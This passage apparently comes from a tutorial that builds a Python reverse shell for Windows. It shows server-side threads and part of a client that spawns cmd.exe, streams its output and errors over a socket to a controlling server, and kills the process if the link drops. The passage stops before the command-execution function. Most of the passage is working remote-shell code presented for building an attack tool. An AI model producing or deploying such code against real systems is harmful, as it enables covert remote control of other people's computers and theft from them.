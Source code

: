```python
#New code starts here. This initiates our threads!
##################################################
s2p_thread = threading.Thread(target=shellreceiver, args=[conn, ])
s2p_thread.daemon = True
s2p_thread.start()

s2p_thread = threading.Thread(target=shellsender, args=[conn, ])
s2p_thread.daemon = True
s2p_thread.start()
##################################################

#continuous loop
while True:
    time.sleep(1)
```

Now, Let's revisit the client code and make all the necessary adjustments to include threading there too. 

**Updated Client Code**
-

```python
import argparse
import socket
import subprocess
import sys
import threading
import os
import time
from win32com.shell import shell

#cmd.exe has now executed our command this client received from the server. Now we send the STDOUT result of that command after it ran via cmd.exe!
def shellstdout_sender(client, myshellproc):
    
    while True:
        output=myshellproc.stdout.read1()
        try:
            client.send(output)
        #basic exception handler to kill the process for cmd.exe if we cannot reach the server
        except:
            print("connection died...")
            subprocess.Popen("TASKKILL /F /PID {pid} /T".format(pid=myshellproc.pid))
            client.close()
            os._exit(0) 
#send errors (example: you typed 'net usr' intead of 'net user'. This will show you the error produced by cmd.exe    
def shellstderr_sender(client, myshellproc):
    
    while True:
        output=myshellproc.stderr.read1()
        try:
            client.send(output)
        #basic exception handler to kill the process for cmd.exe if we cannot reach the server
        except:
            print("connection died...")
            subprocess.Popen("TASKKILL /F /PID {pid} /T".format(pid=myshellproc.pid))
            client.close()
            os._exit(0)

#This function will take the command the server sent to this client, write it to the cmd.exe console, and execute it
```
